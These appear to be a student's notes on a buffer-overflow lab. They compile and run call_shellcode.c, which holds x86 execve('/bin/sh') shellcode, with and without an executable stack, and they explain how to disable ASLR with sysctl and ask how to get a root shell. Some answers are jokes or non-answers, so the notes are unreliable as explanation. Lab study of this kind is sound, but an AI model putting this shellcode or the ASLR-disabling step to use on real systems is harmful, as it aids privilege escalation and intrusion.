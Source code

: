 # Understand the countermeasures to buffer overflow applied by Linux OS

## Compile with `noexecstack`

```bash
# compile call_shellcode.c
gcc -o call_shellcode -z noexecstack -fstack-protector call_shellcode.c
# run the COMPILED program
./call_shellcode
# output:
Segmentation fault (core dumped)
```

<question></question>
What does this tell me?
<answer></answer>
The "Segmentation fault" error message indicates that the program has attempted to access memory that it is not allowed to access, such as trying to read from or write to memory that has not been allocated to the program.

Core dumped means when a part of code tries to perform read and write operation on a read-only or free location.

<question></question>
Yea but seriously, What does this tell me?
<answer></answer>
chirp chirp

## Compile with `execstack`

```bash
# compile call_shellcode.c
gcc -o call_shellcode -z execstack -fstack-protector call_shellcode.c
# run the COMPILED program
./call_shellcode
# output:
$
```

<question></question>
So what's different?

<answer></answer>
This one has a dollar sign and everyone loves dollar's, but in technical terms I have no idea!

Is it possible to call a root shell by using this c program? I think so.






The command "sudo sysctl -w kernel.randomize_va_space=0" is used to disable Address Space Layout Randomization (ASLR) on a Unix-like system, specifically in the kernel's virtual memory subsystem.

ASLR is a security feature that randomizes the location of code and data in a process's address space, making it more difficult for an attacker to predict the location of vulnerable code or to execute a successful exploit. By default, ASLR is enabled on many Unix-like systems.

The "sudo" command is used to run the "sysctl" command with administrative privileges. "sysctl" is a command that allows you to view and modify kernel parameters in real-time.

In this case, the "-w" option is used to set the value of the "kernel.randomize_va_space" parameter to "0", which effectively disables ASLR. This means that the kernel will no longer randomize the location of code and data in a process's address space.

Disabling ASLR can be useful in some cases, such as when debugging an application or when running legacy software that is not compatible with ASLR. However, it also increases the risk of successful attacks against vulnerable code, as the attacker can now more easily predict the location of code and data in a process's address space.

It is important to use caution when disabling security features like ASLR, and only do so when necessary and with a clear understanding of the risks involved.



 $gcc -o call_shellcode -z noexecstack -fstack-protector call_shellcode.c
1. Try $gcc -o call_shellcode -z execstack -fstack-protector call_shellcode.c
2. Is it possible to call a root shell by using this c program? Demonstrate how a root shell is
prompted by compiling and running call_shellcode.c.
Task 4: Practice

```c
// call_shellcode.c

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
// Binary code for setuid(0)
// 64-bit: "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit: "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode);
    int (*func)() = (int(*)())code;
    func();
    return 1;
}
```
